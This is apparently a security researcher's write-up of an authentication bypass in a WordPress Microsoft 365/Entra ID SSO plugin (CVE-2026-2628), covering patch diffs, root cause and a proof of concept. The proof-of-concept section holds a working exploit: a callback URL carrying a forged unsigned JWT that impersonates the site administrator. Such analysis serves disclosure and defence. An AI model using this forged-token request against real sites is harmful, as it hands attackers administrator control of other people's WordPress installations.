





# WordPress All-in-One Microsoft 365 &amp; Entra ID / Azure AD SSO Login Plugin <= 2.2.5 is vulnerable to a high priority Bypass Vulnerability


## Overview 

- **Published:** 2026-03-03
- **CVE-ID:** CVE-2026-2628
- **CVSS:** 9.8 Critical
- **Affected Plugin:** All-in-One Microsoft 365 & Entra ID / Azure AD SSO Login Plugin
- **Affected Versions:** <= 2.2.5
- **CWE:** CWE-288 Authentication Bypass Using an Alternate Path or Channel

## Description

The All-in-One Microsoft 365 & Entra ID / Azure AD SSO Login plugin for WordPress is vulnerable to authentication bypass in all versions up to, and including, 2.2.5. This makes it possible for unauthenticated attackers to bypass authentication and log in as other users, including administrators.

## Patch and commit analysis


According to the product's changelog, a security fix was introduced in version 2.2.7. I will perform a patch analysis by comparing the vulnerable version (2.2.5) with the patched version (2.2.7) to identify the changes.

### Class-moazure-admin-utils.php


The highlighted green section on the right (v2.2.7) adds two new utility functions that didn't exist in v2.2.5:

`moazure_token_base64_decode($data)` — a URL-safe base64 decoder specifically for JWT parts. JWT uses `base64url encoding (replaces + with -, / with _, strips = padding)`, which PHP's native `base64_decode()` doesn't handle directly. The patch adds:

```php 

/**
	 * Decode base64url encoded string.
	 *
	 * @param string $data The base64url encoded string.
	 * @return string
	 */
	public static function moazure_token_base64_decode( $data ) {

		$remainder = strlen( $data ) % 4;
		if ( $remainder ) {
			$data .= str_repeat( '=', 4 - $remainder );
		}

		return base64_decode( strtr( $data, '-_', '+/' ) ); //phpcs:ignore WordPress.PHP.DiscouragedPHPFunctions.obfuscation_base64_decode -- base64 will be required for getting contents from JWT token.
	}

```

This is a prerequisite — without properly decoding JWT parts, the signature verification in later steps can't work. moazure_encode_length($length) — encodes a length value in ASN.1 DER format (used for building RSA public key structures). This is needed for moazure_build_rsa_public_key() in the handler. In v2.2.5, neither of these helpers existed, which means the entire JWKS verification pipeline was absent.

### class-moazure-handler.php





This is the most critical file. Two major additions in v2.2.7:
moazure_build_rsa_public_key($jwk) — converts a raw JWKS JSON key object into a PEM-formatted RSA public key that PHP's openssl_verify() can use. The process:

Decodes n (modulus) and e (exponent) from base64url
Encodes them into ASN.1 DER binary format (the \x02 sequence for INTEGER, \x03 for BIT STRING, \x30 for SEQUENCE)
Wraps in -----BEGIN PUBLIC KEY----- / -----END PUBLIC KEY-----

This is the low-level cryptographic plumbing that was entirely missing in v2.2.5. Without it, there was no way to perform RSA signature verification even if the code wanted to.
moazure_is_token_signature_valid($id_token, $tenant_id) — the main verification gate (visible at the bottom of Image 2, comment shows it's for RS256 verification). Based on the patch notes from the YesWeHack analysis, this function:

- Splits id_token into header, payload, signature
- Decodes the header to extract kid (key ID)
- Fetches https://login.microsoftonline.com/{tenant_id}/discovery/v2.0/keys (JWKS endpoint)
- Finds the matching key by kid
- Calls moazure_build_rsa_public_key() to construct the PEM key
- Calls openssl_verify($header.$payload, $signature, $pem_key, OPENSSL_ALGO_SHA256)
- Returns true only if result is 1

In v2.2.5, none of this existed. The handler had no concept of JWKS or signature validation.

### class-moazure-widget.php



This image shows the moazure_test_config_redirect() function — the part that initiates the OAuth flow when a user clicks "Login with Azure."
The key difference highlighted in blue/green on the right (v2.2.7):
CSRF state parameter hardening. In v2.2.5 (left side), $state is just base64_encode($appname) — a predictable, static value per app config. In v2.2.7, the state is constructed as:

```php 
$nonce           = bin2hex(random_bytes(16));  // cryptographically random
$state_timestamp = (string) time();
$client_ip       = MOAzure_Admin_Utils::moazure_get_client_ip();
$state_payload   = $nonce . '::' . $state_timestamp . '::' . $appname . '::' . $client_ip;
$state           = base64_encode($state_payload);
$_SESSION['moazure_oauth_state_nonce'] = $nonce;
```

This binds the OAuth state to a random nonce + timestamp + IP, stored in session. This directly closes an open redirect / CSRF attack vector — in v2.2.5 an attacker could forge or replay a state parameter since it was predictable.
Also notable: v2.2.7 adds unset($_SESSION['moazure_oauth_state_nonce']) after use — preventing state replay attacks.


This is where the primary authentication bypass lived. The left (v2.2.5) vs right (v2.2.7) diff reveals everything.
State validation (v2.2.7 additions, right panel):
The entire block highlighted in green is new. v2.2.7 now:

Decodes the received state parameter
Splits it into [nonce, timestamp, appname, ip]
Validates count == 4 (format check)
Compares $expected_nonce (from session) against $state_nonce (from request) using hash_equals() — timing-safe comparison
Validates IP hasn't changed: hash_equals((string)$state_ip, (string)$current_ip)
Checks timestamp freshness: (time() - $state_time) > 300 → dies with "request has expired"

In v2.2.5, none of these state validation checks existed.

In both versions, the code reads $code from $_GET['code']. Then: 

```php 
// Both versions
$code = !empty($_GET['code']) ? sanitize_text_field(...) : '';

if (isset($_REQUEST['id_token'])) {  // ← THE VULNERABLE LINE
    $id_token = sanitize_text_field(wp_unslash($_REQUEST['id_token']));
} else {
    $token_response = $moazure_handler->moazure_get_token_res(
        'authorization_code', $appconfig, $accesstokenurl, $scope, false, $code
    );
    // ... extract id_token from token_response
}
```

In v2.2.5 the `if (isset($_REQUEST['id_token']))` branch directly trusts the attacker-supplied token. An attacker sends `?id_token=<forged>&code=x`, the code is non-empty so it doesn't error out, and the forged id_token is taken straight from the request.
In v2.2.7, that same if branch now calls moazure_is_token_signature_valid() on the token before accepting it — if the signature fails, $id_token is set to '' and an error is returned.

## Root cause analysis

### SSO Step by Step

Step 1: Trigger SSO (Login Button)

File : class-moazure-widget.php

```javascript
function moAzureLoginNew(app_name) {
    window.location.href = site_url + '/?option=moazure_oauth_redirect&app_name=' + app_name;
}
```

When user click this button, browser process to redirect to `/?option=moazure_oauth_redirect&app_name=Azure.`

Step 2: Redirect to Microsoft (init hook)

File: class-moazure-widget.php— moazure_login_validate() registed on WordPress init hook.

```php 
if ((!empty($_REQUEST['option'])) && ('moazure_oauth_redirect' === $_REQUEST['option'])) {
    moazure_test_config_redirect(sanitize_text_field(wp_unslash($_REQUEST['option'])));
}
```

Step 3: Building Authorization URL

File: class-moazure-widget.php

```php 
$authorization_url = $appconfig['authorizeurl'] 
    . '?prompt=select_account&client_id=' . $appconfig['clientid'] 
    . '&scope=' . $scope 
    . '&redirect_uri=' . $appconfig['redirecturi'] 
    . '&response_type=code&state=' . $state;
```

The problem here is the `state` parameter just `base64_encode($appname)` this is not random CSRF token. The `state` value were able to guess (example : base64("Azure") = QXp1cmU=).

Step 4: Handle Callback — Token Exchange

File: class-moazure-widget.php

```php 
if ((!empty($_SERVER['REQUEST_URI']) && (strpos(..., '/oauthcallback') !== false 
    || isset($_REQUEST['code'])))) {
    // ...
    if (isset($_REQUEST['code']) || isset($_REQUEST['openid_ns'])) {
```

The plugin checks if the URL contains code parameters. If it is, it starts processing the callback.

Step 5: Exchange code → token

File: class-moazure-widget.php

```php 
$code = !empty($_GET['code']) ? sanitize_text_field(wp_unslash($_GET['code'])) : '';
if (isset($_REQUEST['id_token'])) {
    // take id_token from REQUEST in direct
    $id_token = sanitize_text_field(wp_unslash($_REQUEST['id_token']));
} else {
    // Exchange code → token (normal flow)
    $token_response = $moazure_handler->moazure_get_token_res(..., $code);
    $id_token = $token_response['id_token'] ?? $token_response['access_token'] ?? '';
}
```

**Root cause 1** : At lines 597-598, the plugin checks for `$_REQUEST['id_token']`. If the attacker sends the `id_token` directly via the URL parameter, the plugin completely bypasses the token exchange process with Microsoft server and directly uses the token provided by the attacker!

Step 6: Decode JWT — No signature validation

File: class-moazure-handler.php

```php 
public function get_resource_owner_from_id_token($id_token) {
    $id_array = explode('.', $id_token);
    if (isset($id_array[1])) {
        $id_body = base64_decode(str_pad(strtr($id_array[1], '-_', '+/'), ...));
        if (is_array(json_decode($id_body, true))) {
            return json_decode($id_body, true);
        }
    }
    // ...
}
```

**Root cause 2** : The `get_resource_owner_from_id_token()` function simply `base64-decodes` the payload (second part) of the `JWT token`. It does `NOT verify the token's signature!` This means anyone can create a fake JWT with arbitrary claims.

Step 7: Login user

File: class-moazure-widget.php

```php
$username = moazure_client_get_nested_attribute($resource_owner, $username_attr);
// ...
$user = get_user_by('login', $username);
if ($user) {
    wp_set_current_user($user->ID);
    wp_set_auth_cookie($user->ID);   // ← LÀM CHO USER ĐĂNG NHẬP!
    // ...
    wp_safe_redirect($redirect_to);
}
```

Plugin using username take from JWT (unknown) to find WordPress user create a complete session.



## POC Proof Of Concept


After setting up the test environment, I initiated a normal SSO login request to observe the OAuth flow. The following request was captured:

```text
GET /?prompt=select_account&client_id=00000000-0000-0000-0000-000000000000&scope=openid%20offline_access&redirect_uri=http://localhost/&response_type=code&state=QXp1cmU= HTTP/1.1

Host: localhost

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Referer: http://localhost/wp-admin/admin.php?page=moazure_settings

Connection: keep-alive

Cookie: security_level=0; wp-settings-time-1=1777824549; wpcf7_guest_user_id=743295b3-d9dd-4b16-b689-6fc4bb1aad68; PHPSESSID=e30892db6b2f0f25c22f2b82d43bddb7; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_86a9106ae65537651a8e456835b316ab=phat%7C1777997337%7Co8medb0HjybPgRbID0t17mETjjhA59Pq0A5kRCrLFwb%7C1f5d6f1d469ebde6077b59d922b1fe4588998b8fb725577c3a5449f205a456b3; moazure_test=1

Upgrade-Insecure-Requests: 1

Sec-Fetch-Dest: document

Sec-Fetch-Mode: navigate

Sec-Fetch-Site: same-origin

Priority: u=0, i

```

This request reveals the `client_id`, the predictable state parameter `(QXp1cmU= = Base64("Azure"))`, and the `OAuth callback structure`. Based on the root cause analysis, an attacker can craft a `forged JWT` and submit it directly via the callback handler to authenticate as any user.


I then crafted a malicious unsigned JWT containing the target administrator's username and submitted it as a forged callback request:

```text
http://localhost/?code=dummy&state=QXp1cmU%3D&id_token=eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJ1cG4iOiJhZG1pbiIsImVtYWlsIjoiYWRtaW5AZXhwbG9pdC5sb2NhbCIsIm5hbWUiOiJhZG1pbiIsInN1YiI6IjAwMDAwMDAwLTAwMDAtMDAwMC0wMDAwLTAwMDAwMDAwMDAwMCIsImlzcyI6Imh0dHBzOi8vbG9naW4ubWljcm9zb2Z0b25saW5lLmNvbS9mYWtlLXRlbmFudC92Mi4wIiwiYXVkIjoiZmFrZS1jbGllbnQtaWQiLCJpYXQiOjE3MDAwMDAwMDAsImV4cCI6MTk5OTk5OTk5OX0.
```

The forged JWT contains:

- Header: {"alg":"none","typ":"JWT"} — declares no signature algorithm
- Payload: {"upn":"admin", ...} — impersonates the admin user
- Signature: empty — unsigned token



The exploit was successful. The plugin accepted the forged unsigned JWT, extracted the upn claim, matched it to the WordPress administrator account, and established a fully authenticated session — confirming the authentication bypass vulnerability.

